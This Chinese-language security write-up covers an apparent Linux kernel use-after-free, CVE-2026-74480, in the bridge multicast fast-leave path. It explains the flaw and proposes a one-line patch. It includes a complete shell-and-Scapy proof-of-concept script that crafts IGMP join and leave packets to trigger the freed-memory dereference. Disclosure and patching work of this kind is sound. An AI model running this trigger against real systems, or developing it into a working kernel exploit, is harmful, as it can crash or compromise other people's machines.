



# CVE-2026-74480

CVE：https://access.redhat.com/security/cve/cve-2026-74480

patch：https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/commit/?id=a39789f211b8a4125f0c70e05b30cf715f4f187d

关注 https://github.com/NebuSec/CyberMeowfia 谢谢喵

## 前置知识

**Linux Bridge**（`网桥`）是一个内核模块，其功能相当于一个纯软件实现的二层网络交换机，核心作用是连接多个网络接口，并基于数据帧中的目标MAC地址进行过滤和转发

普通单播流量依赖**FDB**(`Forwarding Database`，转发表)转发



与单播流量不同，多播（`Multicast`）流量不能只看一个目的MAC地址

因为一个多播组可能同时有多个接收者，且这些接收者可能分布在`Bridge`的不同端口（`Port`）上

Bridge需要精确知道哪些端口后面有主机订阅了某个多播组

因此采用**MDB**（`Multicast Database`，多播数据库）



`Bridge`会监听经过端口的**IGMP/MLD**报文

当某个主机发送`IGMP Report`，代表其想加入这个多播组时，Bridge便会在MDB中记录它

与之相关的数据结构：

`net_bridge_mdb_entry`，代表一个具体的多播组

```c
struct net_bridge_mdb_entry {
	struct rhash_head		rhnode;
	struct net_bridge		*br; // pointer to the owning bridge
	struct net_bridge_port_group __rcu *ports; // list of port groups for this group
	struct br_ip			addr; // multicast group address (IPv4/IPv6)
	bool				host_joined;

	struct timer_list		timer;
	struct hlist_node		mdb_node;

	struct net_bridge_mcast_gc	mcast_gc;
	struct rcu_head			rcu;
};
```

以及`net_bridge_port_group`，代表该多播组在某个Bridge端口上存在一个监听者

```c
struct net_bridge_port_group {
	struct net_bridge_port_group __rcu *next; // next group in the same mdb entry's list
	struct net_bridge_port_group_sg_key key; // key containing the port (and source-group info)
	unsigned char			eth_addr[ETH_ALEN] __aligned(2); // MAC address of the listener (used for mcast_to_unicast)
	unsigned char			flags;
	unsigned char			filter_mode;
	unsigned char			grp_query_rexmit_cnt;
	unsigned char			rt_protocol;

	struct hlist_head		src_list;
	unsigned int			src_ents;
	struct timer_list		timer;
	struct timer_list		rexmit_timer;
	struct hlist_node		mglist;
	struct rb_root			eht_set_tree;
	struct rb_root			eht_host_tree;

	struct rhash_head		rhnode;
	struct net_bridge_mcast_gc	mcast_gc;
	struct rcu_head			rcu;
};

struct net_bridge_port_group_sg_key {
	struct net_bridge_port		*port;
	struct br_ip			addr;
};
```

正常情况下，同一个Bridge Port后面即使有多个主机订阅同一个多播组，Bridge也可以只保留一个port group，因为最终还是向该Port发送多播流量

但对于**Wi-Fi**等场景，多播的效率和可靠性不一定好

于是Linux Bridge提供了multicast_to_unicast

当配置mcast_to_unicast开启时

Bridge收到多播数据包，会先根据多播组地址查MDB找到对应的net_bridge_mdb_entry，然后遍历其ports链表，每遍历到一个net_bridge_port_group节点，就复制一份原始多播包，将目的**MAC**改写为该节点记录的监听者单播地址（`eth_addr`），最后从key.port对应端口发出，一份多播数据也因此被拆解为N份单播帧，分别送达N个监听者

因此，开启mcast_to_unicast后，同一个Port，同一个多播组，可以因为监听者MAC不同而存在多个net_bridge_port_group

函数br_port_group_equal负责判断两个port group是否相同

```c
static bool br_port_group_equal(struct net_bridge_port_group *p,
				struct net_bridge_port *port,
				const unsigned char *src)
{
	if (p->key.port != port)
		return false;

	if (!test_bit(BR_MULTICAST_TO_UNICAST_BIT, &port->flags))
		return true;

	return ether_addr_equal(src, p->eth_addr);
}
```

关键在于，当mcast_to_unicast开启时，必须Port相同且MAC相同，才算同一个group

而当mcast_to_unicast关闭时，只要Port相同，就算是同一个group，这个**相等**的定义会随着运行时配置的变化而改变

## UAF

接下来我们关注fast leave路径

**IGMP Leave**表示主机离开某个多播组，常规流程中，Bridge收到Leave后不会立即删除记录，而是发送`Group-Specific Query`，等待一段时间，如果该端口下没有其它主机响应Report，才会真正删除

这是因为Leave只代表一个主机离开，而该端口后面可能还有其它主机仍在订阅该组

对于有线以太网，这个延迟还勉强可以接受，但是对于IP电视频道切换这种场景，几秒的延迟会严重影响用户体验，用户切换频道后，旧频道的流量仍在转发，造成带宽浪费

Fast Leave通过立即删除来节省带宽，加速频道切换

而漏洞则恰好位于这个快速删除路径中

```c
	if (pmctx &&
	    test_bit(BR_MULTICAST_FAST_LEAVE_BIT, &pmctx->port->flags)) {
		struct net_bridge_port_group __rcu **pp;

		for (pp = &mp->ports;
		     (p = mlock_dereference(*pp, brmctx->br)) != NULL;
		     pp = &p->next) {
			if (!br_port_group_equal(p, pmctx->port, src))
				continue;

			if (p->flags & MDB_PG_FLAGS_PERMANENT)
				break;

			p->flags |= MDB_PG_FLAGS_FAST_LEAVE;
			br_multicast_del_pg(mp, p, pp);
		}
		goto out;
	}
```

我们构造以下状态

首先开启fast leave和mcast_to_unicast，然后让两个具有不同MAC地址的主机加入同一个多播组

此时在MDB的活链表中会形成形如`mp->ports -> P2 -> P1 -> NULL`的结构，其中P1和P2都属于同一个Bridge端口veth0，但各自记录了不同的监听者MAC

紧接着，我们关闭mcast_to_unicast

这一操作立即改变了br_port_group_equal()的判定语义，它不再比较MAC地址，只要两个port group的端口同为veth0，它们在逻辑上就被视为相等了

然而，此时内核并没有触发任何链表重建，mp->ports依然维持着`P2 -> P1`的双节点结构

随后，我们发送一次IGMP Leave报文，上面的删除循环开始遍历mp->ports

第一次循环命中链表头部的P2，此时`pp = &mp->ports`，`p = P2`，调用br_multicast_del_pg后，活链表顺利变为`mp->ports -> P1 -> NULL`，P2被摘除并放入RCU延迟释放队列

接下来出问题了

删除P2后，循环却并未停止，而是继续执行`pp = &p->next`，而由于此时p仍是指向已经被摘链的P2，导致pp被错误地赋值为`&P2->next`，然而P2早已不在活链表中，但它的next指针此刻恰好还保留着原值（指向P1）

于是下一轮循环从*pp（即P2->next）中意外地读取到了P1，并且再次命中删除条件，执行br_multicast_del_pg(mp, P1, &P2->next)，注意这一次修改的目标变为了P2->next = NULL，而不是我们期望的mp->ports，循环至此结束

活链表mp->ports依然指向P1，但P1已经被逻辑删除并进入了RCU回收流程

此时mp->ports悄然成为一枚悬挂指针，它指向了一块即将被内核异步物理释放的内存

UAF原语就此诞生



## POC

配置要求：

- `CONFIG_BRIDGE=y`
- `CONFIG_BRIDGE_IGMP_SNOOPING=y`
- `CONFIG_VETH=y`
- `CONFIG_IP_MULTICAST=y`
- `CONFIG_IPV6=y`
- `CONFIG_USER_NS=y`
- `CONFIG_NET_NS=y`
- `CONFIG_KASAN=y`

poc.sh：

```bash
#!/bin/sh
set -eu

# Bridge and veth interface names
BR=br0
LISTENER_BR=veth0          # bridge side of listener veth pair
LISTENER_PEER=veth0p       # peer side where we send IGMP packets from
SENDER_BR=veth1            # bridge side of sender veth pair
SENDER_PEER=veth1p         # peer side where we send data packets from

# Multicast group parameters
GROUP=239.1.1.1
GROUP_MAC=01:00:5e:01:01:01
ALL_ROUTERS=224.0.0.2
ALL_ROUTERS_MAC=01:00:5e:00:00:02

# MAC/IP addresses for two listeners (A and B) and one sender (C)
MAC_A=02:00:00:00:00:0a
MAC_B=02:00:00:00:00:0b
MAC_C=02:00:00:00:00:0c
SRC_A=10.0.0.10
SRC_B=10.0.0.11
SRC_C=10.0.1.10

cleanup() {
	ip link del "$BR" 2>/dev/null || true
	ip link del "$LISTENER_PEER" 2>/dev/null || true
	ip link del "$SENDER_PEER" 2>/dev/null || true
}

# Send IGMP/MLD or data packets via Scapy
send_pkt() {
	python3 - "$@" <<'PY'
import sys
from scapy.all import Ether, IP, UDP, sendp
from scapy.contrib.igmp import IGMP
from scapy.layers.inet import IPOption_Router_Alert

op = sys.argv[1]
iface = sys.argv[2]

if op == "join":
    # IGMP Report (type 0x16) - join a multicast group
    src_mac, src_ip, group_mac, group_ip = sys.argv[3:7]
    pkt = (
        Ether(src=src_mac, dst=group_mac)
        / IP(src=src_ip, dst=group_ip, ttl=1, options=[IPOption_Router_Alert()])
        / IGMP(type=0x16, gaddr=group_ip)
    )
elif op == "leave":
    # IGMP Leave (type 0x17) - leave a multicast group, sent to 224.0.0.2 (all-routers)
    src_mac, src_ip, dst_mac, dst_ip, group_ip = sys.argv[3:8]
    pkt = (
        Ether(src=src_mac, dst=dst_mac)
        / IP(src=src_ip, dst=dst_ip, ttl=1, options=[IPOption_Router_Alert()])
        / IGMP(type=0x17, gaddr=group_ip)
    )
elif op == "data":
    # Multicast UDP data packet, dest MAC is the multicast group MAC
    src_mac, src_ip, group_mac, group_ip = sys.argv[3:7]
    pkt = (
        Ether(src=src_mac, dst=group_mac)
        / IP(src=src_ip, dst=group_ip, ttl=8)
        / UDP(sport=12345, dport=12345)
        / (b"A" * 64)
    )
else:
    raise SystemExit(f"unknown op {op}")

sendp(pkt, iface=iface, verbose=False)
PY
}

cleanup
trap cleanup EXIT

# Create bridge with IGMP snooping enabled
ip link add "$BR" type bridge mcast_snooping 1
ip link set "$BR" up

# Create two veth pairs: one for listeners, one for sender
ip link add "$LISTENER_PEER" type veth peer name "$LISTENER_BR"
ip link add "$SENDER_PEER" type veth peer name "$SENDER_BR"

# Attach bridge-side ends to the bridge
ip link set "$LISTENER_BR" master "$BR"
ip link set "$SENDER_BR" master "$BR"

# Bring all interfaces up
ip link set "$LISTENER_BR" up
ip link set "$SENDER_BR" up
ip link set "$LISTENER_PEER" up
ip link set "$SENDER_PEER" up

# Enable fastleave and mcast_to_unicast on listener port
bridge link set dev "$LISTENER_BR" fastleave on mcast_to_unicast on
bridge link set dev "$SENDER_BR" fastleave off mcast_to_unicast off

# Inject two IGMP Reports from MAC_A and MAC_B on the listener port
# This creates two port_group entries (P2 and P1) in MDB: mp->ports -> P2 -> P1
send_pkt join "$LISTENER_PEER" "$MAC_A" "$SRC_A" "$GROUP_MAC" "$GROUP"
send_pkt join "$LISTENER_PEER" "$MAC_B" "$SRC_B" "$GROUP_MAC" "$GROUP"
sleep 1

echo "[+] MDB after joins"
bridge -d mdb show dev "$BR" || true

# CRITICAL: turn off mcast_to_unicast
# This changes br_port_group_equal() semantics: same port => equal, MAC ignored
# Now P2 and P1 are logically "the same" but both still exist in the list
bridge link set dev "$LISTENER_BR" mcast_to_unicast off

# Send IGMP Leave from MAC_A to trigger the bug
send_pkt leave "$LISTENER_PEER" "$MAC_A" "$SRC_A" "$ALL_ROUTERS_MAC" "$ALL_ROUTERS" "$GROUP"

echo "[+] MDB right after leaves"
bridge -d mdb show dev "$BR" || true

sleep 5

# Trigger UAF: send multicast data, kernel traverses mp->ports and hits freed P1
echo "[+] Triggering dereference through multicast forwarding"
send_pkt data "$SENDER_PEER" "$MAC_C" "$SRC_C" "$GROUP_MAC" "$GROUP"
sleep 1

# Another trigger via mdb dump (also traverses the same stale pointer)
echo "[+] Triggering dereference through bridge mdb dump"
bridge -d mdb show dev "$BR"
```

## patch

我做出的patch：

```bash
diff --git a/net/bridge/br_multicast.c b/net/bridge/br_multicast.c
index 6b3ac473fd228..00aa9b2879d6e 100644
--- a/net/bridge/br_multicast.c
+++ b/net/bridge/br_multicast.c
@@ -3687,6 +3687,7 @@ br_multicast_leave_group(struct net_bridge_mcast *brmctx,
 
 			p->flags |= MDB_PG_FLAGS_FAST_LEAVE;
 			br_multicast_del_pg(mp, p, pp);
+			break;
 		}
 		goto out;
 	}
```

加一行break即可

在Fast Leave路径中，收到一个Leave报文，只需要删除一个匹配的port group即可

在未开启mcast_to_unicast时，同一个端口下多个监听者共享同一个port group，删除一次就够了

而在开启mcast_to_unicast时，虽然每个监听者有独立的port group，但一次Leave也只代表一个主机离开，删除其对应的那一个节点后即可停止

这样就既没有影响原语义，也挡住了UAF的产生
